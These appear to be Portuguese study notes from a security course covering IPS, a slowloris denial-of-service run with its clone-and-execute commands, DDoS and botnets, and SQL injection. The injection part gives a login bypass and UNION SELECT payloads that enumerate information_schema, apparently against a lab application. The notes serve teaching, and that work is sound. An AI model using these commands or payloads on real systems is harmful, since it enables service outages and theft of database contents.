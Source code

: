       * O Intrusion Prevention System (IPS) é conectado diretamente na rede, dessa forma, ao analisar algum tipo de anomalia o IPS é capaz de impedir que esse tráfego seja propagado para outros pontos da minha rede.
```
$ git clone https://github.com/llaera/slowloris.pl.git  => no kali linux, baixamos uma ferramenta capaz de sobrecarregar um servidor
$ cd slowloris.pl/
$ chmod +x slowloris.pl
$ ./slowloris.pl
$ perl ./slowloris.pl -dns [IP servidor] -timeout 1   => executa o ataque
```
#DDoS ( #Distributed_Denial_of_Service):
      * O ataque DDoS (Distributed Denial of Service) consiste em tirar a concentração do ataque em um usuário, como é feito no ataque de DoS e distribuir o ataque por vários usuários. Isso pode ser obtido por exemplo quando usuários fazem download de arquivos infectados. Uma vez que tais máquinas foram infectadas, o Hacker poderá controlá-las para que possa assim iniciar um ataque distribuído contra um serviço. O objetivo de tal ataque seria de causar uma "saturação" no link do alvo e com isso torná-lo indisponível para que outros usuários acessem o serviço.
      * Uma botnet é um grupo de máquinas que foram comprometidas de alguma forma (por exemplo vírus, malware, etc). Tais máquinas infectadas passam a ser usadas por hackers para fazerem ataques contra um determinado serviço a fim de torná-lo indisponível. Pelo fato de termos várias máquinas atuando nesse ataque, chamamos esse de um ataque de negação de serviços distribuído (DDoS).

#SQL_Injection:
      * Inserir códigos SQL em parâmetros da página, para que o banco de dados se comporte de uma maneira indevida, podendo por exemplo, extrair dados que estão lá inseridos.
      * No exemplo de nossa aplicação, os parâmetros username e password são encaminhados para o servidor e ocorre uma consulta no banco de dados para verificar se esses dados estão presentes. Essa consulta ao banco de dados é feita na linguagem SQL (Structured Query Language) e ao inserir códigos SQL nos campos username e password, estamos passando para o banco informações para que ele se comporte da forma que queremos, o que não deveria ser permitido.
```
$ no campo de password digitar  x' or 'a'='a   nossa requisição é enviada em SQL como SELECT username FROM accounts WHERE username='admin' AND password=''; Desta forma, ao passarmos "SELECT username FROM accounts WHERE username='admin' AND password='x' or 'a'='a';", podemos utilizar esse operador lógico or para que o SQL retorne como True essa requisição
$ Nossa requisição é enviada em SQL como SELECT username FROM accounts WHERE username='admin' AND password=''; Para que possamos descobrir a senha, podemos ordenar duas colunas passando no name: " admin' order by 1,2 --[espaço] " (-- comenta o código, então ' AND password=''; será comentado). Assim nos é retornado a senha do usuário. Com isso podemos também descobrir o número de colunas que essa tabela possui, basta dar um order by [num_coluna] até que não levante excessão de erro
! O information schema seria um banco de dados interno capaz de referenciar os demais bancos presentes em minha aplicação, podendo informar nomes de colunas e tabelas. Sendo assim muito importante para descobrir que informações estão guardadas.
$ Com a linha acima descobrimos o número de colunas. Com isso, SELECT username FROM accounts WHERE username='admin' UNION SELECT 1,2,3,4,5,6,7 from information_schema.columns where table_name='accounts' -- ' AND password=''. O que passamos na aba username foi "admin' UNION SELECT 1,2,3,4,5,6,7 from information_schema.columns where table_name='accounts' -- ", Recebemos as informações de que Username está na coluna número 2, Password na número 3 e Signature na 4. Repare que esses números surgem dos parâmetros que nós mesmos inserimos. Falta descobrir qual o banco em que essa tabela Accounts está inserida. Portanto, nós vamos substituir um desses valores que aparece na tela pelo database. Agora: "admin' UNION SELECT 1,database(),3,4,5,6,7 from information_schema.columns where table_name='accounts' -- ".
  Ou seja, temos o nome da banco no qual a tabela está inserida, o nowasp! Então, já temos a tabela e o banco. Agora, fica ainda mais fácil descobrir as colunas de Account. No lugar do database() nós vamos colocar columns_name e após o table vamos inserir table schema='nowasp'e com isso, estamos dizendo: queremos saber o nome das colunas que estão na tabela Accounts dentro do banco nowasp. Então, "admin' UNION SELECT 1,column_name,3,4,5,6,7 from information_schema.columns where table_name='accounts' and table_schema='nowasp'-- '". Ou seja! Temos todos os nomes das colunas! Conseguimos descobrir quais eram as sete colunas dentro da tabela!
$ No lab 3 utilizamos ' UNION SELECT NULL,NULL,NULL-- ou ' ORDER BY 1,2,3 -- para determinar a quantidade de colunas existentes na tabela do banco de dados
  No lab 4 utilizamos " ' UNION SELECT 'a',NULL,NULL,NULL-- " ou " ' UNION SELECT NULL,'a',NULL,NULL-- " para saber qual coluna da tabela contem tipos string, caso ela não contesse iria levantar uma exceção de erro interno 
```